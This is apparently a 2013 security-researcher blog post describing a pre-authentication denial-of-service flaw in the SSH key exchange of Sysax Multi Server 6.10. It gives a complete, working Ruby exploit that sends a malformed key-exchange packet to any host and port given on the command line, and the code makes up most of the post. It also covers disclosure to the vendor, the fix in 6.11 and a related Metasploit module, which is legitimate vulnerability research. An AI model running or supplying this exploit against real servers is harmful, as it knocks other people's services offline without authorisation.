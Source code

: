 ```yaml
---
title: "Sysax Multi Server 6.10 SSH DoS"
date: "2013-04-08T08:27:00-04:00"
comments: true
highlight: "true"
categories:
 - ssh
 - DoS
 - windows
 - sysax
 - exploit
 - metasploit
aliases:
 - "/2013/04/sysax-multi-server-610-ssh-dos.html"
 - "/2013/04/08/sysax-multi-server-610-ssh-dos"
---
```


I was recently fuzzing a bunch of SSH servers, hoping to find some remote code execution in a non-mainstream server. I ended up finding no code execution in the several that I tried, but I did find one pre-auth denial of service in Syax Multi Server 6.10.

<!-- more -->

## Try this at home!

The vulnerable version can be downloaded [here](/downloads/sysaxserv_setup_6.10.msi) for anyone that would like to duplicate the DoS conditions.

## Understanding the Key Exchange

I found that during the key exchange, where the SSH client and SSH server negotiate which ciphers to use, if you messed up just a single specific byte, the server would crash. I started reading through the [RFC](https://tools.ietf.org/html/rfc4253#section-7.1) for SSH keyexchange, and found the key exchange to be mostly ASCII.

{{% figure class="img-responsive" src="/img/sysax_ssh_hex.png" %}}


I started playing with the byte that caused the crash, and it seemed that it was some sort of control character, or separator. I'm still unsure. However, changing it would cause a crash every time.

{{% figure class="img-responsive" src="/img/sysax_ssh_hex2.png" %}}

I wasn't able to figure out any way to get remote code execution, although someone smarter than me, may be able to do it. For now, I'll settle with a DoS exploit.

## The exploit

```
#!/usr/bin/env ruby
# Sysax Multi Server 6.10 SSH DoS
# Matt "hostess" Andreko < mandreko [at] accuvant.com >
# http://www.mattandreko.com/2013/04/sysax-multi-server-610-ssh-dos.html

require 'socket'

unless ARGV.length == 2
  puts "Usage: ruby #{$0} [host] [port]\n"
  exit
end

packet = [0x00, 0x00, 0x03, 0x14, 0x08, 0x14, 0xff, 0x9f,
  0xde, 0x5d, 0x5f, 0xb3, 0x07, 0x8f, 0x49, 0xa7,
  0x79, 0x6a, 0x03, 0x3d, 0xaf, 0x55, 0x00, 0x00,
  0x00, 0x7e, 0x64, 0x69, 0x66, 0x66, 0x69, 0x65,
  0x2d, 0x68, 0x65, 0x6c, 0x6c, 0x6d, 0x61, 0x6e,
  0x2d, 0x67, 0x72, 0x6f, 0x75, 0x70, 0x2d, 0x65,
  0x78, 0x63, 0x68, 0x61, 0x6e, 0x67, 0x65, 0x2d,
  0x73, 0x68, 0x61, 0x32, 0x35, 0x36, 0x2c, 0x64,
  0x69, 0x66, 0x66, 0x69, 0x65, 0x2d, 0x68, 0x65,
  0x6c, 0x6c, 0x6d, 0x61, 0x6e, 0x2d, 0x67, 0x72,
  0x6f, 0x75, 0x70, 0x2d, 0x65, 0x78, 0x63, 0x68,
  0x61, 0x6e, 0x67, 0x65, 0x2d, 0x73, 0x68, 0x61,
  0x31, 0x2c, 0x64, 0x69, 0x66, 0x66, 0x69, 0x65,
  0x2d, 0x68, 0x65, 0x6c, 0x6c, 0x6d, 0x61, 0x6e,
  0x2d, 0x67, 0x72, 0x6f, 0x75, 0x70, 0x31, 0x34,
  0x2d, 0x73, 0x68, 0x61, 0x31, 0x2c, 0x64, 0x69,
  0x66, 0x66, 0x69, 0x65, 0x2d, 0x68, 0x65, 0x6c,
  0x6c, 0x6d, 0x61, 0x6e, 0x2d, 0x67, 0x72, 0x6f,
  0x75, 0x70, 0x31, 0x2d, 0x73, 0x68, 0x61, 0x31,
  0x00, 0x00, 0x00, 0x0f, 0x73, 0x73, 0x68, 0x2d,
  0x72, 0x73, 0x61, 0x2c, 0x73, 0x73, 0x68, 0x2d,
  0x64, 0x73, 0x73, 0x00, 0x00, 0x00, 0x9d, 0x61,
  0x65, 0x73, 0x31, 0x32, 0x38, 0x2d, 0x63, 0x62,
  0x63, 0x2c, 0x33, 0x64, 0x65, 0x73, 0x2d, 0x63,
  0x62, 0x63, 0x2c, 0x62, 0x6c, 0x6f, 0x77, 0x66,
  0x69, 0x73, 0x68, 0x2d, 0x63, 0x62, 0x63, 0x2c,
  0x63, 0x61, 0x73, 0x74, 0x31, 0x32, 0x38, 0x2d,
  0x63, 0x62, 0x63, 0x2c, 0x61, 0x72, 0x63, 0x66,
  0x6f, 0x75, 0x72, 0x31, 0x32, 0x38, 0x2c, 0x61,
  0x72, 0x63, 0x66, 0x6f, 0x75, 0x72, 0x32, 0x35,
  0x36, 0x2c, 0x61, 0x72, 0x63, 0x66, 0x6f, 0x75,
  0x72, 0x2c, 0x61, 0x65, 0x73, 0x31, 0x39, 0x32,
  0x2d, 0x63, 0x62, 0x63, 0x2c, 0x61, 0x65, 0x73,
  0x32, 0x35, 0x36, 0x2d, 0x63, 0x62, 0x63, 0x2c,
  0x72, 0x69, 0x6a, 0x6e, 0x64, 0x61, 0x65, 0x6c,
  0x2d, 0x63, 0x62, 0x63, 0x40, 0x6c, 0x79, 0x73,
  0x61, 0x74, 0x6f, 0x72, 0x2e, 0x6c, 0x69, 0x75,
  0x2e, 0x73, 0x65, 0x2c, 0x61, 0x65, 0x73, 0x31,
  0x32, 0x38, 0x2d, 0x63, 0x74, 0x72, 0x2c, 0x61,
  0x65, 0x73, 0x31, 0x39, 0x32, 0x2d, 0x63, 0x74,
  0x72, 0x2c, 0x61, 0x65, 0x73, 0x32, 0x35, 0x36,
  0x2d, 0x63, 0x74, 0x72, 0x00, 0x00, 0x00, 0x9d,
  0x61, 0x65, 0x73, 0x31, 0x32, 0x38, 0x2d, 0x63,
  0x62, 0x63, 0x2c, 0x33, 0x64, 0x65, 0x73, 0x2d,
  0x63, 0x62, 0x63, 0x2c, 0x62, 0x6c, 0x6f, 0x77,
  0x66, 0x69, 0x73, 0x68, 0x2d, 0x63, 0x62, 0x63,
  0x2c, 0x63, 0x61, 0x73, 0x74, 0x31, 0x32, 0x38,
  0x2d, 0x63, 0x62, 0x63, 0x2c, 0x61, 0x72, 0x63,
  0x66, 0x6f, 0x75, 0x72, 0x31, 0x32, 0x38, 0x2c,
  0x61, 0x72, 0x63, 0x66, 0x6f, 0x75, 0x72, 0x32,
  0x35, 0x36, 0x2c, 0x61, 0x72, 0x63, 0x66, 0x6f,
  0x75, 0x72, 0x2c, 0x61, 0x65, 0x73, 0x31, 0x39,
  0x32, 0x2d, 0x63, 0x62, 0x63, 0x2c, 0x61, 0x65,
  0x73, 0x32, 0x35, 0x36, 0x2d, 0x63, 0x62, 0x63,
  0x2c, 0x72, 0x69, 0x6a, 0x6e, 0x64, 0x61, 0x65,
  0x6c, 0x2d, 0x63, 0x62, 0x63, 0x40, 0x6c, 0x79,
  0x73, 0x61, 0x74, 0x6f, 0x72, 0x2e, 0x6c, 0x69,
  0x75, 0x2e, 0x73, 0x65, 0x2c, 0x61, 0x65, 0x73,
  0x31, 0x32, 0x38, 0x2d, 0x63, 0x74, 0x72, 0x2c,
  0x61, 0x65, 0x73, 0x31, 0x39, 0x32, 0x2d, 0x63,
  0x74, 0x72, 0x2c, 0x61, 0x65, 0x73, 0x32, 0x35,
  0x36, 0x2d, 0x63, 0x74, 0x72, 0x00, 0x00, 0x00,
  0x69, 0x68, 0x6d, 0x61, 0x63, 0x2d, 0x6d, 0x64,
  0x35, 0x2c, 0x68, 0x6d, 0x61, 0x63, 0x2d, 0x73,
  0x68, 0x61, 0x31, 0x2c, 0x75, 0x6d, 0x61, 0x63,
  0x2d, 0x36, 0x34, 0x40, 0x6f, 0x70, 0x65, 0x6e,
  0x73, 0x73, 0x68, 0x2e, 0x63, 0x6f, 0x6d, 0x2c,
  0x68, 0x6d, 0x61, 0x63, 0x2d, 0x72, 0x69, 0x70,
  0x65, 0x6d, 0x64, 0x31, 0x36, 0x30, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x72, 0x69, 0x70, 0x65,
  0x6d, 0x64, 0x31, 0x36, 0x30, 0x40, 0x6f, 0x70,
  0x65, 0x6e, 0x73, 0x73, 0x68, 0x2e, 0x63, 0x6f,
  0x6d, 0x2c, 0x68, 0x6d, 0x61, 0x63, 0x2d, 0x73,
  0x68, 0x61, 0x31, 0x2d, 0x39, 0x36, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x6d, 0x64, 0x35, 0x2d,
  0x39, 0x36, 0x00, 0x00, 0x00, 0x69, 0x68, 0x6d,
  0x61, 0x63, 0x2d, 0x6d, 0x64, 0x35, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x73, 0x68, 0x61, 0x31,
  0x2c, 0x75, 0x6d, 0x61, 0x63, 0x2d, 0x36, 0x34,
  0x40, 0x6f, 0x70, 0x65, 0x6e, 0x73, 0x73, 0x68,
  0x2e, 0x63, 0x6f, 0x6d, 0x2c, 0x68, 0x6d, 0x61,
  0x63, 0x2d, 0x72, 0x69, 0x70, 0x65, 0x6d, 0x64,
  0x31, 0x36, 0x30, 0x2c, 0x68, 0x6d, 0x61, 0x63,
  0x2d, 0x72, 0x69, 0x70, 0x65, 0x6d, 0x64, 0x31,
  0x36, 0x30, 0x40, 0x6f, 0x70, 0x65, 0x6e, 0x73,
  0x73, 0x68, 0x2e, 0x63, 0x6f, 0x6d, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x73, 0x68, 0x61, 0x31,
  0x2d, 0x39, 0x36, 0x2c, 0x68, 0x6d, 0x61, 0x63,
  0x2d, 0x6d, 0x64, 0x35, 0x2d, 0x39, 0x36, 0x00,
  #3rd byte in this next line causes crash
  0x00, 0x00, 0x28, 0x7a, 0x6c, 0x69, 0x62, 0x40,
  0x6f, 0x70, 0x65, 0x6e, 0x73, 0x73, 0x68, 0x2e,
  0x63, 0x6f, 0x6d, 0x2c, 0x7a, 0x6c, 0x69, 0x62,
  0x2c, 0x6e, 0x6f, 0x6e, 0x65, 0x00, 0x00, 0x00,
  0x1a, 0x7a, 0x6c, 0x69, 0x62, 0x40, 0x6f, 0x70,
  0x65, 0x6e, 0x73, 0x73, 0x68, 0x2e, 0x63, 0x6f,
  0x6d, 0x2c, 0x7a, 0x6c, 0x69, 0x62, 0x2c, 0x6e,
  0x6f, 0x6e, 0x65, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00].pack("C*")

host = ARGV[0]
port = ARGV[1]

sock = TCPSocket.open(host, port)

banner = sock.gets()
puts banner

sock.puts("SSH-2.0-OpenSSH_5.1p1 Debian-5ubuntu1\r\n")
sock.puts(packet)
resp = sock.gets()

sock.close()
```

## Remediation

I contacted the developers of Sysax Multi Server on March 18 2013 and April 6 2013. They were able to release a new version (6.11) which is no longer vulnerable to this bug. If you're running Sysax Multi Server with SSH (off by default, but plenty of users on [ShodanHQ](http://www.shodanhq.com/search?q=sysax+port%3A22)), I would highly recommend updating to 6.11, available [here](http://www.sysax.com/download.htm#sysaxserv).

## Update:

It looks like the Metasploit module I wrote for this has been merged! You can view it [here](https://github.com/rapid7/metasploit-framework/blob/225342ce8f34b1af49e498c0cc6fa92c127187e8/modules/auxiliary/dos/windows/ssh/sysax_sshd_kexchange.rb)
